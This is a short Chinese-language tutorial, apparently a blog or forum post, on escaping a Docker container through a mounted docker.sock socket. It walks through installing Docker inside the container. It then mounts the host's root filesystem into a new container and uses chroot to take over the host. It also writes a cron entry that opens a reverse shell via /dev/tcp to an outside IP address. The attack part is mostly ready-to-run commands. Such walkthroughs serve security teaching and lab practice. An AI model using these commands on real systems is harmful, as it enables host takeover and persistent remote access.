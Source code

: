 Docker架构相当于C/S架构，docker.sock就是docker中套docker，docker的client和server的通信模式参考:[https://www.jb51.net/article/99019.htm](https://link.zhihu.com/?target=https%3A//www.jb51.net/article/99019.htm)
利用docker.sock逃逸的前提条件

3. 攻击者获得了docker容器的访问权限

4. 容器已安装/var/run/docker.sock

### **环境搭建**

创建Docker`docker run -it -v /var/run/docker.sock:/var/run/docker.sock ubuntu:18.04  `



随后在docker容器中安装docker`# ubuntu 18.04安装docker `
`apt-get update `
`# 安装依赖包 `
`apt-get install apt-transport-https ca-certificates curl gnupg-agent software-properties-common `
`# 添加 Docker 的官方 GPG 密钥 `
`curl -fsSL https://download.docker.com/linux/ubuntu/gpg |  apt-key add - `
`# 验证当前是否拥有带有指纹的密钥 `
`apt-key fingerprint 0EBFCD88 `
`# 设置稳定版仓库 `
`add-apt-repository "deb [arch=amd64] https://download.docker.com/linux/ubuntu $(lsb_release -cs) stable" `
`# 更新 `
`apt-get update `
`# 安装最新的Docker-ce  `
`apt-get install docker-ce `
`# 启动 `
`systemctl enable docker `
`systemctl start docker `



这时安装完成后我们就可以使用docker ps来看到宿主机上的容器了。

### **漏洞利用**

将宿主机的根目录挂载到容器中`docker run -it -v /:/tide ubuntu:18.04 /bin/bash `
`chroot tide`



这时可以看到返回出一个bash会话，这里我们就可以看到我们之前在宿主机中创建的flag.txt了



这里也可以使用计划任务反弹shell`echo '* * * * * bash -i >& /dev/tcp/192.168.198.128/8888 0>&1' >> /var/spool/cron/root`



## **挂载宿主机根目录**

如果在docker启动的时候挂载了宿主机的根目录，就可以通过chroot获取宿主机的权限`docker run -it -v /:/tide/ ubuntu:18.04`
`chroot /tide/`


